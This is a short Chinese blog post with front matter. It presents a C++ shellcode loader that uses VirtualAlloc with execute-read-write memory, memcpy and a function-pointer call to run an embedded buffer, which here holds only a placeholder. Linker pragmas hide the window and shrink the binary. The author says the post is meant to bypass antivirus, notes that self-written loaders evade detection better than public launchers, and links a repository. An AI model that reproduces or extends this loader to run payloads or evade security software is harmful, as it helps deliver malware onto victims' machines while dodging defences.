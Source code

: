 ```yaml
---
title: "C++ ShellCode 加载器"
date: 2019-08-05T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['shellcode','c++','bypass']
categories: ['bypass']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



通过 Win32 API 实现从内存中加载 ShellCode.

<!--more-->

之前也用过 Python Go 方式的 ShellCode 执行器, 不过使用 C++ 编译的文件体积会小很多.

```
#include <Windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"Run\"")  
#pragma comment(linker, "/INCREMENTAL:NO")   

unsigned char buf[] = "shellcode";


int Run()
{
	LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, buf, sizeof(buf));
	((void(*)())Memory)();
	return 0;
}
```

两行预编译代码用来隐藏窗口和自定义入口点, 实测把 main 改掉以后体积缩小了一大半.

Windows 10 1903 下使用 Visual Studio 2019 编译后大小为 4kb.

至于 ShellCode 加载器, 已经给出了上面的代码, 拓展一下写出一个简单的 loader 也并不困难, 无非就是本地读取和远程读取两种方式. 而且使用自己写的工具而不是网上被大量使用的 shellcode launcher, 会更容易地绕过杀软.

[cpploader](https://github.com/X1r0z/cpploader)